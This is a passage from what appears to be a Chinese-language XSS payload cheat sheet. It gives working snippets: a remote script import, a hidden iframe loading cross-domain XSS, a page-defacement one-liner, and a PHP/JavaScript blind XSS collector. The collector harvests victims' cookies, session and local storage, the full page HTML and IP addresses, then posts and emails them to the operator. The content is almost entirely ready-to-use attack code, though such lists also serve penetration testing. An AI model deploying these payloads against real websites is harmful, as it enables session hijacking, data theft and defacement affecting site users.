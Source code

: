 - （需要 CORS 和 `.js` 文件扩展名）

```javascript
import('//domain/file')
```



## 隐形外部XSS

**用于将来自另一个域（或子域）的XSS加载到当前域中。受目标的`X-Frame-Options(XFO)`响应头限制。以下示例在`brutelogic.com.br`上下文中弹出警告框，无论当前域是什么。  **

```javascript
<iframe src="//brutelogic.com.br/xss.php?a=<svg onload=alert(document.domain)>"
style=display:none></iframe>
```



## 简单的虚拟篡改

**用于通过提供`HTML`代码来改变网站对受害者的显示。在下面的示例中，显示`Not Found`消息 **

```javascript
documentElement.innerHTML='<h1>Not Found</h1>'
```



## 盲注 XSS 邮件接收器

**将其用作盲注XSS远程脚本，保存为PHP文件，并根据需要修改`$to`和`$headers`变量。需要配置可用的邮件服务器（如Postfix） **

```php
<?php header("Content-type: application/javascript"); ?>
    
var mailer = '<?= "//" . $_SERVER["SERVER_NAME"] . $_SERVER["REQUEST_URI"] ?>';
var msg = 'USER AGENT\n' + navigator.userAgent + '\n\nTARGET URL\n' + document.URL;
msg += '\n\nREFERRER URL\n' + document.referrer + '\n\nREADABLE COOKIES\n' +
document.cookie;
msg += '\n\nSESSION STORAGE\n' + JSON.stringify(sessionStorage) + '\n\nLOCAL
STORAGE\n' + JSON.stringify(localStorage);
msg += '\n\nFULL DOCUMENT\n' + document.documentElement.innerHTML;
var r = new XMLHttpRequest();
r.open('POST', mailer, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send('origin=' + document.location.origin + '&msg=' + encodeURIComponent(msg));

<?php
header("Access-Control-Allow-Origin: " . $_POST["origin"]);
$origin = $_POST["origin"];
$to = "myName@myDomain";
$subject = "XSS Blind Report for " . $origin;
$ip = "Requester: " . $_SERVER["REMOTE_ADDR"] . "\nForwarded For: ".
$_SERVER["HTTP_X_FORWARDED_FOR"];
$msg = $subject . "\n\nIP ADDRESS\n" . $ip . "\n\n" . $_POST["msg"];
$headers = "From: report@myDomain" . "\r\n";
if ($origin && $msg) mail($to, $subject, $msg, $headers);
?>
```
